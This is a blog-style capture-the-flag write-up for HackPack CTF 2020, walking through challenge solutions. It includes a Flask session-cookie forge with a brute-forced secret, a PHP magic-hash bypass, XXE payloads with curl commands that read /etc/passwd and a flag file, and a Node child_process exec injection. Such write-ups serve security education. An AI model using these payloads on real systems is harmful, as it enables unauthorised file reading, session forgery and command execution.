 ```yaml
---
layout: post
title: HackPack CTF 2020
categories: [Capture The Flag]
tags: [hackpack, re, web, pwn, misc]

---
```


[Hackpack](https://ctf2020.hackpack.club/challenges) is an educational CTF that aims to complement security courses at North Carolina State University. Date: vie, 17 abr. 2020, 17:00 UTC — mar, 28 abr. 2020, 03:59 UTC

## Re
- Time Window: First of all, view the page source:
```
...
<script src="_sr_.js"></script>
<script src="__.js"></script>
...
<h2>Time's running out, hurry!</h2>
<form onsubmit="javascript:c();return false;" action="javascript:c();">
	<input type="text" id="message" autocomplete="off" autofocus />
</form>
```
We observe the function c() that belongs to __.js. In the JS, using https://beautifier.io/, we can see a method POST and the function.
```
...
dn = Date.now
 x = rn % 2 == 0 ? lr : rr, y = rn % 2 != 0 ? lr : rr, cf(r) >= dn() - 6e4 ? fetch("/check", {
            method: "POST",
            mode: "same-origin", 
...
cf = function (r) {
  try {
    let e = Array.from(atob(rr(243, Array.from(r)))),
    n = 1;
    for (let r = 0; r < e.length; r++) r === n && (e.splice(r + 1, + e[r + 1] + 1), n += n);
    return + lr(168, e)
  } catch (r) {
  }
  return - 1
},
```
We see that cf(r) must be greater or equal than Date.now+1764, so we choose 10000000000000. Using the cf=function(r), we can get the input for the website:

```
rr(168, Array.from("10000000000000")) ->"10000000000000"-> +4 zeros for e.splice() -> btoa("100000000000000000")
lr(243, Array.from("MTAwMDAwMDAwMDAwMDAwMDAw")) -> wMDAwMDAwMDAwMDAwMDAwMTA is the input -> We can get the FLAG.
```

## Web
- Cookie Forge. When we log in, a cookie named session appears (this is the JWT). In the Flagship Loyalty section, we see this Warning: "You aren't a Flagship Loyalty Member! No cookies for you!!".
```
flask-unsign -d -c 'eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJhYSIsImFsZyI6IkhTMjU2In0.e30.yoxyotdennG9lsGnJNK1REYuSNqVUmN_ijyN26xO3z8'  
{'flagship': True, 'username': 'aa', 'alg': 'HS256'}
flask-unsign --server https://cookie-forge.cha.hackpack.club/orders --unsign  // bruteforce psw is password1
flask-unsign --sign --secret password1 --cookie "{'flagship': True, 'username': 'aa'}"
```
Editing the cookie, we get the flag.

- Treasure Map: 
https://treasure-map.cha.hackpack.club/robots.txt ->
view-source:https://treasure-map.cha.hackpack.club/treasuremap.xml ->
view-source:https://treasure-map.cha.hackpack.club/7BmqJfhWhEa30NeVj7j2.html -> Flag

- Super Secret Flag Vault: The Index.php file shows us a PHP script comparing a specific hash. For this, we use the well-known: PHP magic hashes. Where 0+e[0-9]+ compared with == returns true. For eg -'0e1' == '00e2'. We put as input "KnCM6ogsNA1W" whose hash is 00e73414578113850089230341919829.

- Paster: view-source -> src="frames/index.php" -> src="game-frame.js" where a JSfuck code appears. Using https://enkhee-osiris.github.io/Decoder-JSFuck/, we get:
```
parent.postMessage(window.location.toString(),"*");var originalAlert=window.alert;window.alert=function(t){parent.postMessage("success","*"),flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99"),setTimeout(function(){originalAlert("Congratulations, you executed an alert:\n\n"+t+"\n\nhere is the flag: "+flag)},50)};d
```
Inspect the site and, in the console section, write: flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99") -> "flag{x55_i5Nt_7hA7_bAD_R1Gh7?}"

- Custom UI: Inserting '<', we get "Warning: DOMDocument::loadXML():". This is a [XML External Entity Injection](https://portswigger.net/web-security/xxe).
We see that there is a xdata variable, so we can inject here our data. xdata: <button><color> mn</color><value></value></button>
Injection: <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><button><color>&xxe;</color><value>iii</value></button>

[URL encoded](https://www.urlencoder.org/): %3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```

Changing the cookie to True:

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
...
</div>
<!-- TODO: Delete flag.txt from /etc/ --></body>
...

```
Injection: <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/flag.txt"> ]><button><color>&xxe;</color><value>iii</value></button>

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fflag.txt%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
```

And we get the flag.

## PWN 
- Jsclean: the python file is asking for a js file and a js code. In the python script we can see that it refers to index.js, so we know that this is the file to clean: index.js and the js code is: require("child_process").exec("cat flag.txt", function(error, stdout, stderr){console.log(stdout);});

## Misc
- Soundy: using a sstv decoder
-Listen up!: when we use the exiftool command, we get a comment with an [URL](https://www.youtube.com/watch?v=2xZgCVG_Bzk) about MS Paint EXE file.
We need to convert the audio to RAW format (it is the uncompressed audio).
